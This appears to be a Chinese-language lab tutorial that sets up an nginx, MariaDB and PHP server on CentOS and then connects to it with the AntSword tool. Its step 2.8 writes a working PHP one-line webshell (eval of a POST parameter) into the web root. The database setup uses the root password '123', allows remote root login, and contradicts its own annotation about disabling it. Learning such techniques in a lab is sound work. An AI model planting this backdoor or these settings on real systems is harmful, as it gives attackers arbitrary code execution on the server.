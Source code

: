 ### 1、使用AntSword远程控制服务器
### 2、LNMP环境搭建
#### 2.1 先移除之前安装的服务
```shell script
yum remove httpd -y
yum remove mysql -y
yum remove php -y
```

#### 2.2 安装开发包和库文件
```shell script
yum -y install ntp make openssl openssl-devel pcre pcre-devel libpng libpng-devel libjpeg-6b libjpeg-devel-6b freetype freetype-devel gd gd-devel zlib zlib-devel gcc gcc-c++ libXpm libXpm-devel ncurses ncurses-devel libmcrypt libmcrypt-devel libxml2 libxml2-devel imake autoconf automake screen sysstat compat-libstdc++-33 curl curl-devel
```

#### 2.3 安装nginx
```shell script
yum install nginx -y
systemctl start nginx.service
systemctl status nginx.service
systemctl enable nginx.service
```

#### 2.4 安装mariadb
```shell script
yum install mariadb-devel mariadb mariadb-server
systemctl start mariadb.service
systemctl status mariadb.service
```

#### 2.5 设置mariadb
```shell script
mysql_secure_installation  #初始化MySQL
Enter current password for root (enter for none):   <---输入现在的root密码，因为我们还没设置，直接回车
Set root password? [Y/n] Y                          <---是否设定root密码，当然设置了，输入Y回车
New password: 123                                   <---输入root密码，并回车，输入的过程中不会有任何显示
Re-enter new password:  123                         <---再次输入root密码，并回车，输入的过程中不会有任何显示
Remove anonymous users? [Y/n] Y                     <---是否删除匿名用户，删除，输入Y回车
Disallow root login remotely? [Y/n] n               <---是否删禁止root用户远程登录，当然禁止，输入Y回车
Remove test database and access to it? [Y/n] n      <---是否删除测试数据库test，看个人喜好
Reload privilege tables now? [Y/n] Y                <---刷新权限，输入Y回车
最后出现：Thanks for using MySQL!
MySql密码设置完成，重新启动 MySQL：
```

#### 2.6 安装php
```shell script
yum -y install php php-cli php-mysql php-gd php-imap php-ldap php-odbc php-pear php-xml php-xmlrpc php-mbstring php-mcrypt php-mssql php-snmp php-soap 
yum install  php-tidy php-common php-devel php-fpm php-mysql -y

systemctl start php-fpm.service
systemctl status php-fpm.service
systemctl enable php-fpm.service
```

#### 2.7 配置nginx
```shell script
vim /etc/nginx/conf.d/default.conf 

server {
    location / {
        root   /usr/share/nginx/html;
        index  index.php index.html index.htm;   #增加index.php
    }
      location ~ \.php$ {
        root           /usr/share/nginx/html;
        fastcgi_pass   127.0.0.1:9000;
        fastcgi_index  index.php;
        fastcgi_param  SCRIPT_FILENAME  /usr/share/nginx/html$fastcgi_script_name;
        include        fastcgi_params;
    }
}
```

#### 2.8 创建php一句话木马
```shell script
vim /usr/share/nginx/html/index.php

<?php eval($_POST['a']);
```

#### 2.9 重启nginx和php-fpm
```shell script
nginx -t
nginx -s reload
systemctl restart nginx
systemctl restart php-fpm
```
### 3、使用蚁剑连接服务器
![image](https://github.com/498946975/Security/blob/master/images/image-20220105094154247)
